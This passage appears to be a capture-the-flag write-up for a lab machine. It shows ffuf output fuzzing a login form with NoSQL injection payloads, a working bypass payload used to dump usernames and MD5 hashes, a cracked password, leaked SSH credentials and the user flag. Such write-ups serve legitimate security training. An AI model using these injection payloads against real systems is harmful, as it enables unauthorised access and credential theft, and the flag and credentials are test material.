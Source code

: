 ```
 :: Data             : username=FUZZ&password=FUZZ

 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

{ $ne: 1 }              [Status: 302, Size: 102, Words: 5, Lines: 1]
' || 'a'=='a            [Status: 302, Size: 102, Words: 5, Lines: 1]
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1 [Status: 302, Size: 102, Words: 5, Lines: 1]
{"$gt": ""}             [Status: 302, Size: 102, Words: 5, Lines: 1]
{$nin: [""]}}           [Status: 302, Size: 102, Words: 5, Lines: 1]
|| 1==1                 [Status: 302, Size: 102, Words: 5, Lines: 1]
db.injection.insert({success:1}); [Status: 302, Size: 102, Words: 5, Lines: 1]
:: Progress: [22/22] :: Job [1/1] :: 1 req/sec :: Duration: [0:00:20] :: Errors: 14 ::

```

* Trying out the payloads, the following one works:
	* `admin' || 'a'=='a`
	* This confirms that we have a NoSQL injection vulnerability 


    * We can then put the same payload into the `search` bar and it gives us a `export-search.json` file with the following contents:

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

### Password Cracking

We can try to crack these hashes. I put them into [crackstation](https://crackstation.net/) and we found out that they are md5 hashes.

We got one set of credentials:

`josh:remembermethisway`

These credentials didn't work for ssh, but did work on the mattermost subdomain.

### Mattermost

In the mattermost app, we can log in and loko at a locked channel called `Deploy Machine`

This reveals credentials for an account: `jaeger:Sh0ppyBest@pp!`

We can ssh with these creds.

This gets us the user flag: `288a0f17204d7f4179a7fcd43025338d`
